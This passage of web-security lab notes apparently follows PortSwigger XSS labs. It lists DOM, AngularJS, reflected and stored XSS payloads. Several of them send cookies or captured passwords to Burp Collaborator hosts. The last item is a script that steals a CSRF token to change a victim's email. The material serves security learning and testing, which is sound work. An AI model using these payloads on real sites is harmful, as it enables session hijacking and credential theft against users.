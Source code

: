 source code reveal `document.write` is the sink used with `location.search` allowing us to add `storeId` query parameter with a value containing the JavaScript payload inside a `<select>` statement.
2. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded.  
angularJS - `ng-app` in HTML or `angular 1-7-7.js`  
We simply detect this vuln in Search functionality via passing `{{7*7}}`
```
{{constructor.constructor('alert(1)')()}}
Or
{{$on.constructor('alert(1)')()}}
Or
{{$eval.constructor('alert(1)')()}}
```
Adapted version:
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
Or 
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```
Note: The session cookie property must not have the HttpOnly secure flag set in order for XSS to succeed.
3. Reflected DOM XSS  
```
\"-alert()}//
```
Adapted:
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
4. Stored DOM XSS  
We detect `repalce()` function in js  
Function replaces first angle brakets only:
```
<><img src=1 onerror=alert(1)>
```
Adapted:
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```
5. Exploiting cross-site scripting to steal cookies  
```
<script>document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</script>
```
6. Exploiting cross-site scripting to capture passwords  
You can create new form in comment section to steal passwords
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">document.write()
```

7. Exploiting XSS to perform CSRF
There is protection against CSRF, so we need to use the other user's CSRF token in our payload
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() 
{    
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];    
var changeReq = new XMLHttpRequest();    
changeReq.open('post', '/my-account/change-email', true);    
changeReq.send('csrf='+token+'&email=test@test.com')};
```